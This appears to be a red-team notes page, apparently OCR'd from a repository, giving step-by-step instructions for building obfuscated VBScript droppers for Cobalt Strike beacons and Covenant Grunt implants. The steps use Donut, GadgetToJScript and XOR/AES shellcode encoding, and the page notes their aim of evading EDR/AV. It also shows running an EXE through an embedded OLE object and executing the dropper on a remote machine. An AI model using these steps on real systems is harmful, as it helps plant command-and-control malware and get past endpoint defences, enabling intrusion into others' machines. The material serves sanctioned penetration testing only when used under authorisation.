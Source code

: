 # Bypassing Policy

### Executing EXE with oleObject
1. Click on *Insert Object* and choose your binary under *Create from file* option.
![](Pasted%20image%2020221201224938.png)
2. Double clicking on the object will prompt this prompt. Click on Run and cmd should appears.
![](Pasted%20image%2020221201225040.png)
# Payload Creation

## VBScript dropper
Make sure to download [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript.git) and [Donut](https://github.com/TheWover/donut.git)._Note:This method probably won't 100% bypass EDR/AV._
### Cobalt Strike Beacon
For cobalt strike, this aggressor script called [**ShellCode Generator**](https://github.com/RCStep/CSSG) is very useful to generate shellcode with custom formatting. This cna also helps to obfuscate with XOR or AES method.

1. Generate shellcode and this is my default configuration
![SG](shellcode_generator.png)

2. Use [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script and paste those hex bytes in `shellcode` variable
![b64var](b64var.png)

3. Compile with **GadgetToJScript**

```
GadgetToJScript.exe -b -w vbs -o beacon -c .\real.cs
```

4. Execute with `wscript.exe beacon.cs`

### Covenant Grunt
For covenant, since its already has its built in .NET generator. You can use donut to further obfuscate the assembly/

1. Generate **binary** from Covenant
2. Obfuscate and convert to byte array with **Donut**. It will then generate into .bin file.
```
donut.exe -f .\Grunt.exe
```
3. Convert .bin file to base64 and save to clipboard
```powershell
# save filepath to a variable
$filename='<file-path-to>\payload.bin'
# Convert file to base64 and save to clipboard
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename) | Clip
```
4. Download [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script, save as payload.cs (or anythin bcs no one cares) and replace the `b64` variable with our current clipboard
5. Convert payload.cs to vbs with **GadgetToJScript**
```
.\GadgetToJScript.exe -b -w vbs -o realtest -c .\real.cs
```
6. Execute on remote computer
```
wscript.exe .\realtest.vbs
```
